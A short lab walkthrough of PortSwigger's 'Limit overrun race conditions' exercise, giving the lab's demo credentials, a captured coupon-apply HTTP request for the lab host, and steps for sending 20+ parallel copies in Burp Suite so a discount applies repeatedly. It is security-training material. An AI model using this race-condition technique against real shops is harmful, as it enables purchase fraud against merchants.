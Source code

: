 ```yaml
---
title: Limit overrun race conditions
description: PortSwigger Race Conditions Lab
---
```

This lab's purchasing flow contains a race condition that enables you to purchase items for an unintended price.

To solve the lab, successfully purchase a **Lightweight L33t Leather Jacket**.

You can log in to your account with the following credentials: `wiener:peter`.

For a faster and more convenient way to trigger the race condition, we recommend that you solve this lab using the [Trigger race conditions](https://github.com/PortSwigger/bambdas/blob/main/CustomAction/ProbeForRaceCondition.bambda) custom action. This is only available in Burp Suite Professional.

## Discovery
Apply coupon request
```http
POST /cart/coupon HTTP/2
Host: 0aed003f04499c76842e86bd00c3007c.web-security-academy.net
Cookie: session=D4r7k75cS5z15xyhJEcHePjNSQdu35et
Content-Length: 52
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Origin: https://0aed003f04499c76842e86bd00c3007c.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aed003f04499c76842e86bd00c3007c.web-security-academy.net/cart
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

csrf=YUhjuKQ706D3mEJHyJuumE2XrHbN46kr&coupon=PROMO20
```

## Exploit
Make 20+ copies of request in Burp Suite then "Create Group tab".
![](../../../../public/images/PS_Race_Conditions_20250612%20_214543.png)

Coupon applied multiple times.
![](../../../../public/images/PS_Race_Conditions_20250612%20_214933.png) 


